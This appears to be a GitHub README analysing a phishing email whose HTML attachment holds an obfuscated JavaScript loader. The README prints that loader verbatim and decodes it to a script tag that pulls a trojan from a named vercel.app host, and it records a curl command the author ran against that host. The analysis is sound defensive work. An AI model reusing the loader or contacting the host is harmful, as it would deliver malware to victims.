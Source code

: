 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.
I did a "curl -v https://fictional-dmk.vercel.app > virus.out", and seconds later MS Defender popped up
and told me about a severe security issue, and quarantined the file.

I could restore it and save it here in the repository but I will not - it might make it too easy to set up the
same trap and I want to stay on the bright side.

## Analysis

### pdf
Here is the content of the .pdf attachment:

7847834783478347834783478GHSD347R8YUFDJHKFDFGKSJDGFSK786YDFUSGKFSDFSD

I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "bXltYWlsQGhvdG1haWwuY29t"; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml


